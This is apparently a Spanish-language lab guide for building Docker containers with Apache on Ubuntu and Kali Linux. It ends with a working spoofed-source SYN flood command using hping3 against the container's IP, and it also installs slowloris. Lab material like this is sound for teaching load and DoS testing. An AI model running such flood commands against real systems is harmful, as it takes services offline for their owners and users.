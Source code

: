 # 🚀 Configuración de Contenedores para Pruebas de Seguridad

Este documento describe cómo configurar un entorno de prueba con **Ubuntu** y **Kali Linux** en contenedores Docker para evaluar ataques de Denial of Service (DoS) sobre un servidor Apache.

---

## 🏗️ Configuración del Servidor Apache en Ubuntu

En una terminal con Docker, ejecuta los siguientes comandos para desplegar y configurar un servidor Apache dentro de un contenedor **Ubuntu**.

### 📌 1. Crear un Contenedor de Ubuntu
```bash
docker run -dit --name servidor-apache-prueba -p 80:80 ubuntu
```
![Evidencia](img/1.png)

### 📌 2. Ejecutar la Instancia de Ubuntu
```bash
docker exec -it servidor-apache-prueba bash
```
![Evidencia](img/2.png)

### 📌 3. Actualizar el Sistema Ubuntu
```bash
apt update -y && apt upgrade -y
```
![Evidencia](img/3.png)

### 📌 4. Instalar el Servidor Apache
```bash
apt install -y apache2
```
![Evidencia](img/4.png)

### 📌 5. Configurar el Mensaje de Bienvenida
```bash
echo "Hola, soy un servidor con Apache Server. Si ves este mensaje, el servidor está activo." > /var/www/html/index.html
```
![Evidencia](img/5.png)

### 📌 6. Iniciar el Servicio Apache
```bash
service apache2 start
```
![Evidencia](img/6.png)

### 📌 7. Verificar la Página Web en el Navegador
En el navegador local, ingresa la siguiente URL:
```
http://localhost:80
```
![Evidencia](img/7.png)

---

## 🔥 Configuración de Kali Linux para Pruebas de Ataques DoS

En otra terminal, ejecuta los siguientes comandos para desplegar un contenedor con **Kali Linux** y preparar herramientas para pruebas de carga sobre el servidor Apache.

### 📌 1. Crear un Contenedor con Kali Linux
```bash
docker run -dit --name kali-testing kalilinux/kali-rolling
```
![Evidencia](img/8.png)

### 📌 2. Ejecutar la Instancia de Kali Linux
```bash
docker exec -it kali-testing bash
```
![Evidencia](img/9.png)

### 📌 3. Actualizar el Sistema Kali
```bash
apt update -y && apt upgrade -y
```
![Evidencia](img/10.png)

### 📌 4. Instalar Herramientas de Pruebas de Carga (Apache Benchmark, Hping3, Slowloris)
```bash
apt install -y hping3 slowloris apache2-utils
```
![Evidencia](img/11.png)

---

## 🚨 Iniciando el Ataque DoS al Servidor Apache

A continuación, se ejecutará un ataque de inundación TCP aleatoria contra la IP y el puerto 80 del servidor Apache.

### 📌 1. Identificar la IP del Contenedor Ubuntu
Desde la instancia de Ubuntu, ejecuta:
```bash
ip a
```
![Evidencia](img/12.png)

### 📌 2. Ejecutar Ataque de Inundación TCP con **Hping3**
```bash
hping3 -S --flood --rand-source -p 80 172.17.0.2
```
![Evidencia](img/13.png)

---

## 🎯 Conclusión

Después de realizar las pruebas, se puede analizar el impacto de los ataques en el servidor Apache. Se recomienda monitorear el uso de CPU y memoria del contenedor Ubuntu para evaluar el nivel de afectación.

![Evidencia](img/14.png)

⚠️ **Nota:** Este documento es únicamente con fines educativos. No se debe realizar ningún ataque fuera de un entorno controlado y autorizado.
